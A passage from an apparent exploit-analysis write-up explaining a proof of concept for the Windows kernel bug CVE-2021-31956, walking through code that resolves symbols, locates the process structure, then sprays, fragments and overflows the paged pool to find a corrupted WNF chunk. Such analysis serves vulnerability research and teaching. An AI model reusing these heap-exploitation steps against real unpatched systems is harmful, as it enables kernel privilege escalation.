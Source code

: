 With the exception of the `_In_opt_` variables which are set to `NULL`, referencing the above prototype, we look at the provided input parameters, we break each one down according to it's purpose: 

* `name`: A read-only address to the `WNF_STATE_NAME` structure at index `idx`. 
* `stamp`: A memory address to our zero-initialized `WNF_CHANGE_STAMP` structure.
* `buf`: An optional pointer to an array of `buf_sz` elements. 

Finally, after calling `NtQueryWnfStateData` the `read_pool` function returns the `NTSTATUS` value from the `NtQueryWnfStateData` function call:

```cpp
out:
    return status;
```

#### Sandbox Constraints

One thing to keep in mind is that the `GetProcAddress` function is unavailable when operating in Low Integrity. We will discuss how to bypass this constraint in [Escaping the Sandbox with Y3A's Proof-of-Concept](#escaping-the-sandbox-with-y3as-proof-of-concept).

### The find_chunk Function

Before delving into the `find_chunk` function, let's first take a look at its implementation within the `main` function:

```cpp
if (!NT_SUCCESS(resolve_symbols()))
        goto out;

if (!NT_SUCCESS(get_eproc(&own_eproc)))
    goto out;

if (!NT_SUCCESS(spray_heap(statenames, SPRAY_COUNT, &buf, sizeof(buf))))
    goto out;

if (!NT_SUCCESS(fragment_heap(statenames, SPRAY_COUNT)))
    goto out;

if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
    goto out;

while (!NT_SUCCESS(find_chunk(statenames, SPRAY_COUNT, &buf, &buf_sz, &overflow_idx)))
    if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
        goto out;
```

Here we see that after the paged heap is sprayed, fragmented, and overflowed, we then proceed to use the `find_chunk` function. Let's look at the variables used in the function call to `find_chunk`: 

```cpp
//CVE-2021-31956.h
#define SPRAY_COUNT 0x20000
//...
typedef struct _WNF_STATE_NAME
{
    ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
//...

//CVE-2021-31956.c
PWNF_STATE_NAME         statenames = zalloc(SPRAY_COUNT * sizeof(WNF_STATE_NAME));
char                    buf[0xa0] = { 0 };
ULONG                   buf_sz = sizeof(buf);
ULONG                   overflow_idx = 0;
//...
```
